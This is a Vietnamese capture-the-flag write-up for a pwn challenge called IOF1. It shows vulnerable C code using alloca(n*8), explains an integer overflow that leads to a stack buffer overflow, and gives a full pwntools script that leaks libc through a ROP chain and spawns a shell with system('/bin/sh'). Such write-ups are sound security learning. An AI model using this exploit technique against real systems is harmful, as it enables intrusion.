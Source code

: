 # IOF1

**source**

```c 

#include <stdio.h>
#include <alloca.h>
#include <unistd.h>

void init()
{
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}

void read_str(char *buffer, unsigned long int n)
{
	char c;
	unsigned long int i = 0;
	while (i < n)
	{
		read(0, &c, 1);
		if (c == '\n')
			break;
		buffer[i] = c;
		i++;
	}
	buffer[i] = '\0';
}

int main()
{
	char *buffer;
	unsigned long int n;

	init();

	puts("Secret saver!");
	puts("How long is your secret?");
	printf("> ");
	scanf("%lu", &n);

	buffer = alloca(n*8);
	printf("Enter your secret: ");
	read_str(buffer, n);
}

```

### phân tích soucre:

- 1 lần đầu làm đọc qua thì ko thể nào tìm được hướng khai thác nào hết, ko có hàm get_shell hay win gì hết, ko có fmt luôn ,trong file đề thì có sẵn file libc, **nên khả năng cao ta sẽ dùng ret2libc**

- phân tích qua hàm main thì ta thấy có hàm alloca() thì hàm này có chức năng tương tự như malloc là cấp phát bộ nhớ nhưng thay vì nằm trên heap như malloc thì alloca cấp phát bộ nhớ trên stack. **ví dụ alloca(16) sẽ cấp phát 16 byte**

- tại hàm **read_str** thì nó cho phép ta nhập vào số byte bằng biến n mà ta nhập vào, **vậy nếu ta nhập số bé thì nhập được ít, nhập số lớn thì nhập được nhiều**

- **buffer = alloca(n*8)**, hmmm , nếu vậy ta cứ tăng biến n lên 1 giá trị thì sẽ tăng thêm 1 stack 

hướng của ta là ret2libc nên ta cần nhập 1 số lượng lớn để hàm read_str có thể thoải mái nhập được

vậy h ta thử nhập **1000000** xem sao


![image](https://github.com/gookoosss/CTF/assets/128712571/40d816fe-0435-4fef-b956-a1eac53c6c12)


ko ổn rồi, **lúc này chương trình tạo ra quá nhiều vùng nhớ**, 1000000 stack làm chương trình lặp liên tục không hồi kết, khả năng bị tràn ngăn xếp, chương trình vòng lặp không kết thúc , do truy cập bộ nhớ ngăn xếp liên tục, **Segmentation fault (core dumped)**

`thế bây giờ ta phải làm sao để vừa muốn alloca() nhận vào giá trị càng nhỏ , mà vừa muốn được nhập vào read_str thỏa thik đây `

sau khi được hint nhiều lần thì cách duy nhất đó là **lợi dụng lỗi iof tại buffer = alloca(n*8)** ;

![image](https://github.com/gookoosss/CTF/assets/128712571/78e423fd-8c0d-4a20-8de9-3d895259fdcb)


như ta thấy thì **n có kiểu giá trị là unsigned long int**, ta đang làm trên file 64bit, như ảnh trên thì **giới hạn của unsigned long là 18446744073709551615**, vậy nếu ta thử **tăng thêm 1 thành 18446744073709551616 thì chả phải đã có lỗi iof sao**, ```lúc này alloca(n*8) sẽ nhận vào 1 giá trị siêu nhỏ (thường là số âm) nên ta sẽ ko còn bị lỗi Segmentation fault (core dumped) nữa```

giờ ta thử nhập **18446744073709551616** xem sao


![image](https://github.com/gookoosss/CTF/assets/128712571/6cacd715-b22e-4777-8286-b3e2fec225be)


**deeee lúc này ta đến được với hàm read_str rồi nè**

chà lúc này có thêm lỗi BOF, nên ta sẽ khai thác leak libc và ret2libc tại đây 

### script:

```python 

#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")
context.binary = exe
p = process([exe.path])

gdb.attach(p, gdbscript = '''
b*main+262           
c           
           
''')


input()

pop_rdi = 0x00000000004013e3

###################################
### State 1 : khai thác lỗi iof ###
###################################

payload = b'18446744073709551616'
p.sendlineafter(b'> ' , payload)

###################################
### State 2 : eak libc address  ###
###################################

payload = b'a'*24 # offset có thể khác nhau tùy thuộc vào giá trị biến n ta nhập vào 
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts']) + p64(exe.sym['main'])
p.sendlineafter(b'secret: ' , payload)
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x783a0
log.info("libc leak: " + hex(libc_leak))
log.info("libc base: " + hex(libc.address))

# lúc này ta chạy lại hàm main rồi 

# tiếp tục khai thác lỗi iof

payload = b'18446744073709551616'
p.sendlineafter(b'> ' , payload)

###################################
### State 3 : tạo shell         ###
###################################

payload = b'a'*24
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym['system'])

p.sendlineafter(b'secret: ' , payload)

p.interactive()





```







